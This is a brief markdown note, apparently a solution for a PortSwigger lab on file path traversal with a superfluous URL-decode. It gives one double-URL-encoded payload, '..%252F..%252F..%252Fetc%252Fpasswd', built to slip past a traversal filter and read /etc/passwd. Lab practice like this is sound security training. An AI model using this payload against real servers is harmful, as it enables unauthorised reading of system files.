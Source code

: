 # [File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

```
..%252F..%252F..%252Fetc%252Fpasswd
```
